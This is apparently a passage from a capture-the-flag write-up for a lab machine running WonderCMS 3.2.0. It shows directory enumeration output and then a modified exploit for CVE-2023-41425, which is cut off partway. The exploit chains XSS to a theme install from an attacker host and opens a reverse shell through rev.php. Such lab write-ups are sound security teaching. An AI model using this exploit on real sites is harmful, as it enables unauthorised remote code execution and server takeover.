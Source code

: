```terminal
[####################] - 19m    20477/20477   18/s    http://10.10.11.28/themes/        
[####################] - 17m    20477/20477   20/s    http://10.10.11.28/themes/bike/
[####################] - 8m     20477/20477   43/s    http://10.10.11.28/themes/bike/css/ 
```

One interesting thing we found is a theme called `bike`, we got a `LISENCE`, `summary` and `version` files for it, let's see if there is a readme file.

![readme](2.png)

After multiple attempts, we find the file `README.md`, which reveals that the website is using `WonderCMS`, and if we go to version file we find it's 3.2.0.

After some googling, we discover that this version is vulnerable to XSS and can also lead to RCE [CVE-2023–41425](https://shivamaharjan.medium.com/the-why-and-how-of-cve-2023-41425-wondercms-vulnerability-7ebffbff37d2).

## **Foothold**

The exploit I'll be using can be found here <https://github.com/prodigiousMind/CVE-2023-41425>.

This exploit needs some editing because it has some issues with our target.

Below is the modified one.

```python
# Exploit: WonderCMS XSS to RCE
import sys
import requests
import os
import bs4
import urllib.request
urllib.request.urlretrieve("https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip", "main.zip")

if len(sys.argv) < 4:
    print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
else:
    ip_address = str(sys.argv[2])  # Capture the user-provided IP address
    data = f'''
var URL = "http://sea.htb"; 
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = URL+"/?installModule=http://{ip_address}:8000/main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {{
    if (xhr3.status == 200) {{
        var xhr4 = new XMLHttpRequest();
        xhr4.withCredentials = true;
        xhr4.open("GET", URL+"/themes/revshell-main/rev.php");
        xhr4.send();
        xhr4.onload = function() {{
            if (xhr4.status == 200) {{
                var ip = "{sys.argv[2]}";
                var port = "{sys.argv[3]}";
                var xhr5 = new XMLHttpRequest();
                xhr5.withCredentials = true;
                xhr5.open("GET", URL+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
                xhr5.send();
            }}
```
